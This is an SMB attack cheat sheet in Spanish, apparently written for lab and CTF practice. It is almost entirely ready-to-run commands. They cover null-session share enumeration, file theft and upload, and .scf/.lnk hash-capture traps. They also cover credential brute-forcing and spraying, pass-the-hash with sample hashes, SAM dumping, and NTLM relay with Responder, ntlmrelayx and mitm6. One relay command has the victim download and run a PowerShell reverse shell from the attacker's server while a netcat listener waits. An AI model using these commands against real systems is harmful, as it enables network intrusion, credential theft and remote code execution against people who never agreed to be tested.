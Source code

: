 
### ENUMERACIÓN BÁSICA
```shell
❯ crackmapexec smb 10.10.10.74
```


### VERIFICAR USUARIOS VALIDOS
```shell
❯ crackmapexec smb 10.10.11.241 -u 'drwilliams' -p 'qwe123!@#'
```


# RECURSOS COMPARTIDOS
### NULL SESSION
```shell
❯ crackmapexec smb 10.10.10.4 --shares -u '' -p ''

❯ smbclient -N -L \\\\10.10.10.125

❯ smbclient -N -L //10.10.10.134

❯ smbmap -H 10.10.11.129 --no-banner
```


### ACCEDER A CARPETA
```shell
❯ smbmap -H 10.10.10.172 -u 'NULLSESSION' -r 'users/' --no-banner
```


### DESCARGAR ARCHIVO
```shell
#SIN CREDENCIALES
❯ smbmap -H 10.10.10.172 -u '' -N --download 'users/mhope/azure.xml' --no-banner

#CON CREDENCIALES
❯ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download 'users/mhope/azure.xml' --no-banner
``` 


### CON CREDENCIALES
```shell
❯ crackmapexec smb 10.10.11.241 -u 'drwilliams' -p 'qwe123!@#' --shares

❯ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r 'users$/mhope' --no-banner
```

### MONTURA DE RECURSOS COMPARTIDOS
```shell
#SIN CREDENCIALES
❯ sudo mkdir /mnt/montura
❯ sudo mount -t cifs "//10.10.10.103/Department Shares" /mnt/montura

#CON CREDENCIALES
❯ sudo mount -t cifs "//10.10.11.41/SYSVOL" /mnt/montura -o username=judith.mader,password=judith09
```


### SUBIR ARCHIVO A RECURSO COMPARTIDO
```shell
❯ smbclient //10.10.10.97/new-site -U 'tyler%92g!mA8BGjOirkL%OG*&'
smb: \> put file.php
```


### CONSOLA INTERACTIVA
```shell
#CON CREDENCIALES
❯ smbclient //10.10.10.97/new-site -U 'tyler%92g!mA8BGjOirkL%OG*&'

# CON UN NULL SESSION
❯ smbclient "//10.10.10.103/Department Shares" -N

#DESACTIVAR EL PROMPT
prompt OFF
```


### PRIVILEGIOS

---
**LISTAR PRIVILEGIOS POR SMBCACLS**
```shell
❯ smbcacls "//10.10.10.103/Department Shares" Users/Amanda -N #LE INDICAMOS EL DIRECTORIO DESPUES DE LAS ""
```


# ESCRITURA Y LECTURA
### .SCF
```shell
#EN NUESTRA MÁQUINA
❯ sudo impacket-smbserver smbFolder $(pwd) -smb2support
#EN LA MONTURA DEL RECURSO COMPARTIDO
❯ sudo nano test.scf
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop 
```

### .lnk
```shell
git clone https://github.com/Greenwolf/ntlm_theft.git
cd ntlm_theft
python3 ntlm_theft.py -g lnk -s 192.168.45.227 -f vault #PONEMOS NUESTRA IP
sudo responder -I tun0
sudo cp vault/vault.lnk /mnt/montura
```

---
# BRUTE FORCE
### CREDENCIALES PARALELAS
```shell
❯ crackmapexec smb 10.10.11.129 -u users.txt -p passwords.txt --continue-on-succes --no-bruteforce

❯ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-success
```


### USUARIOS LOCALES
```SHELL
crackmapexec smb 192.168.212.96 -u ./m/M3/users -p 'Reality2Show4!.?' --continue-on-succes --local-auth
```

### PARAMETROS
```shell
#CON USUARIO
❯ crackmapexec smb 10.10.10.172 -u 'user' -p pass.txt --continue-on-success

#CON CONTRASEÑA
❯ crackmapexec smb 10.10.10.172 -u user.txt -p 'PASS' --continue-on-success
```

### SIN USUARIO NI CONTRASEÑA
```shell
❯ crackmapexec smb 10.10.10.172 -u user.txt -p pass.txt --continue-on-success
```

### CONECTARSE CON WMIEXEC
```shell
❯ wmiexec.py search.htb/tristan.davies@10.10.11.129
```

### IDENTIFICAR SI ES VULNERABLE
```SHELL
❯ nmap --script "smb-vuln-ms17-010" -p445 10.10.10.74

❯ nmap --script "smb-vuln-ms17-010" -p445 10.10.10.40

❯ nmap --script "vuln and safe" -p445 10.10.10.40
```


# SAMBA RELAY
### IPv4
```shell
❯ python3 Responder.py -I eth0 -rdw
```

### REV SHELL
```shell
❯ wget "https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1"
	AÑADIR A LA ÚLTIMA LINEA ==> Invoke-PowerShellTcp -Reverse -IPAddress LHOST -Port LPORT  ==> AÑADIR NUESTRO LHOTS Y LPORT

❯ python3 -m http.server 8000
❯ sudo rlwrap nc -nlvp 4646

❯ python3 Responder.py -I eth0 -rdw
❯ ntlmrelayx.py -tf tartets.txt -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://0.0.0.0:8000/Invoke-PowerShellTcp.ps1')"

❯ sudo rlwrap nc -nlvp 4646
(PWNED)
```

# IPv6
### CONFIGURACIONES
```shell
Responder.conf{
	SMB,HTTP  ==> OFF
}

targets.txt{
	IP VICTIMA
}

❯ python3 Responder.py -I eth0 -rdw
❯ ntlmrelayx.py -tf tartets.txt -smb2support
```

### REVERSE SHELL
```shell
❯ mitm6 -d savicorp.local

❯ ntlrelayx -6 -wh [IP ATACANTE] -t smb://[IP VICTIMA] -socks -debug -smb2support
ntlmrelayx> socks
		[PODEMOS VER USUARIOS QUE HAN CAIDO]

❯ proxychains cme smb [IP VICTIMA] -u 'USER' -p 'RANDOM-PASSWORD' -d 'DOMAIN' [DEBERIAMOS DE VER UN PWNED]

❯ proxychains cme smb [IP VICTIMA] -u 'USER' -p 'RANDOM-PASSWORD' -d 'DOMAIN' --sam
		[DUMP SAM]
```

# RID BRUTE
```shell
❯ crackmapexec smb 10.10.11.263 -u 'Guest' -p '' --rid-brute

❯ impacket-lookupsid anonymous@manager.htb -no-pass
```


# HASH
### SMB
```shell
❯ crackmapexec smb 10.10.10.192 -u 'management_svc' -H '5d954b0ade32279532e34ae1bd138889'
```

### WINRM
```shell
❯ crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```